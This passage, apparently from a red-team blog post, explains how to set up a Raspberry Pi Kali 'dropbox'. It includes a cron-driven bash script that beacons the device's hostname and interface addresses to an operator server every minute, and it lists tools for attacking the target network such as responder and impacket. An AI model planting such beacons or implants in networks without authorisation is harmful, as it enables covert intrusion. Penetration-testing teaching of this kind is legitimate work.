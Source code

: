 ```bash
vim /root/checkin.sh
```

```bash {lineNos=table}
#!/bin/bash
SERVER_URL="http://<public-vpnserver-ip>:8080/data"
HOSTNAME=$(hostname)
INTERFACES=$(ip -json addr show | jq '[.[] | {interface: .ifname, addresses: [.addr_info[] | {family: .family, address: .local}]}]')
JSON_PAYLOAD=$(jq -n --arg hostname "$HOSTNAME" --argjson interfaces "$INTERFACES" '{hostname: $hostname, interfaces: $interfaces}')
curl -X POST "$SERVER_URL" -H "Content-Type: application/json" -d "$JSON_PAYLOAD"
```

```bash
chmod +x /root/checkin.sh
```

After making the script executable, we finally create a new cronjob that runs the script every minute.
```bash
crontab -e
```

```bash
*/1 * * * * /root/checkin.sh
```

![Cronjobs](/img/pentesting-dropbox/20250220150019.png)

Now, every minute, the Raspberry Pi sends a POST request with its hostname and network interfaces to the webserver. This allows the operator to see whether or not the OpenVPN connection was successful and which IP address is assigned to the dropbox.  The webpage is protected with HTTP Basic Authentication in order to protect sensitive information from unauthorized visitors.

![Successful check-in](/img/pentesting-dropbox/20250220155626.png)

If the Raspberry Pi is offline, meaning that the script could reach the server, the website displays the last check-in with a red border. 
![Failed check-in](/img/pentesting-dropbox/20250220155746.png)

## Next Steps
### Network Attacks

The main purpose of the dropbox in this blog post is to provide access to a target's internal network for the purpose of a red team engagement or internal penetration test. Since the dropbox itself is running on the Kali Linux operating system, an operator has plenty of built-in tools available to perform reconnaissance and exploitation techniques in the network. Commonly used are the following:

- `nmap` for port scanning and service discovery
- `nxc` for checking access with credentials and interacting with certain services (https://www.netexec.wiki/)
- `responder` for performing man-in-the-middle and relaying attacks (https://github.com/lgandx/Responder)
- `impacket` for attacks against Active Directory
- `PRET` for gaining information from network printers (https://github.com/RUB-NDS/PRET)
